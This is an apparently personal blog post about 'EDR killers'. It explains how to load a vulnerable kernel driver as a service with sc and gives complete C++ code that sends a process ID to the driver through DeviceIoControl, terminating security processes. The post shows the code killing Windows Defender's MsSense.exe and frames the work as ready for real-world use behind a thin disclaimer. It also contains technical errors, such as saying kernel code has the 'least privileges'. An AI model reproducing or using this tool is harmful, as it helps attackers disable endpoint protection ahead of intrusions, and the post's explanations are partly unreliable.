




---

>Hi, I'm **Zane Bilal** — a computer science student and explorer of the offensive side of cybersecurity. In the world of malware and low-level programming, understanding *how things are built* is non-negotiable. to see my work explore my github and my other posts below 

>> `Disclamer:` what you learn from this blog and how you use the knowledge gained from it is up to you , i am not responsible from any misuse of the code in this blog , just use it for educational purposes

# Why You need to care about EDR Killers : 

you are in the field of cybersecurity as a student , a researcher, an employee ..etc , you need to know about edr killer and how much they are so powerful.
so basically an EDR Killer is a rootkit that lives in the kernel that has the least privileges over the system which makes them able to do anything in the machine and main purpose is to terminate the EDR process so the system will not be monitored by any edr OR Anti-virus , and in this point you are cooked and you have now idea about the termination of your edr.

#  What is an "EDR Killer"
as i mentioned before , a program that runs in the kernel (with kernel privileges) are called rootkit and an EDR killer is one of them and as its name suggest , it purpose to kill EDR and anti-virus processes , but for modern malware this technique is not used alone rather it is used along with other techniques to evade edr before killing it like etw and amsi bypass .. etc
and the question to ask is why attacker targets edr processes and use this technique specifically and not other evasion techniques and methods as i mentioned before? 
to answer this question we need to understand how the windows detect suspicious softwares , and a simple answer is by collecting the system telemetry and compare it with already flagged ones, and the primary source of this telemetry is EDR process , additional to that EDR processes runs under system privileges so targeting them is a primary goal 

# How EDR Killers are Implemented 

* before we start the technical part of this blog , there is some prerequisite needed from you to know to continue this post , ad some of them is to know how edr processes collect telemetry and which win api's used for that and also how to code a basic driver and how it communicates with a userland program (sending and receiving data from and to the driver)
* before starting implementing the code, to make this code works in real world we need a vulnerable driver , this is way this technique called BYOVD (bring your own vulnerable driver) , but in our blog we create our own driver with its space memory that do the work for us.

## How to exploit a vulnerable driver ?
we need to create a driver as a service and start it with sc manager tool after that we implement the code that comminucate with our driver to kill the edr process, to do that we follow this steps

## Loading the driver as killer service 
as i mentioned before , we need something that runs in the kernel level which will be our driver that we need to load it as a service , and to do that we follow this steps:
1. getting the vulnerable driver from any relabel source , in my case i am using the killer driver i get it from the internel
2. create a service named `driver_killer` with the path to the killer driver using sc tool s shown in the image  



2. starting the service which loads the driver to its kernel memory, using the command show in the image 



## implementing the killer code 
* after we laoded the driver successfully , now its waiting for our call , now its time to create the code that tell the driver what to do (kill a process by passing the appropriate IOCTL code) and which process to kill by passing the PID of th target process. see the code below: 

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char* argv[]) {
    
    // checking the number of args
    if (argc != 7) {
        printf("Usage: %s -d <device_name> -i <ioctl_code> -p <pid>\n", argv[0]);
        return 1;
    }

    const char* deviceName = NULL; 
    DWORD ioctlCode = 0;        
    DWORD pid = 0;                 

    // parsing the command line arguments 
    for (int i = 1; i < argc; i += 2) {
        if (strcmp(argv[i], "-d") == 0) {
            deviceName = argv[i + 1]; 
        }
        else if (strcmp(argv[i], "-i") == 0) {
            ioctlCode = (DWORD)strtoul(argv[i + 1], NULL, 0);
        }
        else if (strcmp(argv[i], "-p") == 0) {
            pid = (DWORD)atoi(argv[i + 1]);
        }
        else {
            printf("Invalid argument: %s\n", argv[i]);
            return 1;
        }
    }

    // check if the parse process succeed 
    if (!deviceName || ioctlCode == 0 || pid == 0) {
        printf("Invalid or missing arguments.\n");
        return 1;
    }

    // Open a handle to the device driver.
    HANDLE deviceHandle = CreateFileA(deviceName,
        GENERIC_WRITE | GENERIC_READ,
        0,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL);

    // Check if the handle to the device was successfully created.
    if (deviceHandle == INVALID_HANDLE_VALUE) {
        printf("Failed to open device: %s\n", deviceName);
        return 1;
    }

    if (!DeviceIoControl(deviceHandle, ioctlCode, &pid, sizeof(pid), NULL, 0, NULL, NULL)) {
        printf("Failed to send IOCTL request. Error code: %d\n", GetLastError());
    }
    else {
        // If successful, print the IOCTL request and the target PID.
        printf("Sent IOCTL request (0x%X) to terminate PID: %lu\n", ioctlCode, pid);
    }

    // Close the handle to the device to free system resources.
    CloseHandle(deviceHandle);
    return 0;
}


```

### Code Walkthrough
1. opening a handle to the device driver :
   
```cpp
 HANDLE deviceHandle = CreateFileA(deviceName,
        GENERIC_WRITE | GENERIC_READ,
        0,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL);
```

* we open a handle to the device using the `CreateFile` winapi with the read/write permissions and passing to it the target device name with this args:
    - deviceName: Name of the device driver we loaded .
    - GENERIC_WRITE | GENERIC_READ: Grants read and write permissions.
    - OPEN_EXISTING: Opens an existing device.
    - FILE_ATTRIBUTE_NORMAL: Uses normal file attributes.

2. sending the sign to the driver to kill the target process

```cpp
DeviceIoControl(deviceHandle, ioctlCode, &pid, sizeof(pid), NULL, 0, NULL, NULL)
```
* we need to communicate with the driver using the `DeviceIoControl` winapi to invoke the IOCTL and passing to it the PID of the target EDR process you want to kill with the following args:
     - deviceHandle: Handle to the opened device.
     - ioctlCode: The control code specifying the operation (terminating a process).
     - &pid: Pointer to the PID to terminate.
     - sizeof(pid): Size of the input buffer.
     - NULL: No output buffer.
     - 0: Output buffer size is zero.
     - NULL: No variable to store bytes returned.
     - NULL: No OVERLAPPED structure.


## testing our killer :
after implementing the code its time to test it , compile the code in a release mode then load the driver .
identify the edr process you want to kill , from process hacker we target the process `MsSense.exe` which is the main process of windows defender , as we can see in below image the pid is 1578 .



now we load our driver and start our program.
from process hacker we see the edr process `MsSense.exe` has terminated when we run our program 




# Conclusion
to summarize what we did ,  we get a vulnerable driver and exploit it to kill edr process (in our case is the windows defender process) and this technique works when we have a vulnerable driver , but what if we haven't any ??
this is what we will cover in our next blog by building our own driver , owr our rootkit killer that receives the order fom our client malware and do the job of killing edr with three distinct techniques . see you until next time 


